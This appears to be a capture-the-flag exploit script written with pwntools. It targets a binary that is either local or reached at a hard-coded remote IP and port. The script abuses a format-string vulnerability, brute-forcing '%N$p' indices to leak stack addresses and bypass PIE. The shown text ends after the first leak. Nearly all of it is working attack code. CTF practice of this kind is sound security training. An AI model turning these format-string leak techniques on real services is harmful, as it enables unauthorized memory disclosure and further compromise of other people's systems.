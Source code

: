 ```
#!/usr/bin/env python3

from pwn import *

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(args.BIN)

gs = '''
b *validate
'''

if args.LIBC:
    libc = ELF(args.LIBC)
else:
    libc = e.libc

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("172.105.155.54", 6666)
    else:
        return process(e.path)

# Dynamically leak addresses until offset of PIE address
def find_PIE():
    count = 0
    for i in range(14,30):
        try:
            p = start()
            #
            # Find main
            #
            print(f"Trying index {i}:")
            p.recvuntil(b'>>> \n', timeout=2)
            p.sendline(bytes(f'%{i}$p', 'utf-8'))
            p.recvline()
            line = p.recvline(10)
            print(f"Result: {line}")
            if b"0x5" in line:   # We know its the second one ending in 0x5
                if count == 1:
                    print("LEAK:", line)
                    return i
                    break
                count += 1
            
            p.close()
        except:
            log.warn("Crash")
            p.close()

r = ROP(e)

p = start()

# # Defeat PIE by leaking address of main off stack
# offset = find_PIE()

offset = 23
p.recvuntil(b'>>> \n')
p.sendline(bytes(f'%{offset}$p', 'utf-8'))
# pause()
p.recvline()
```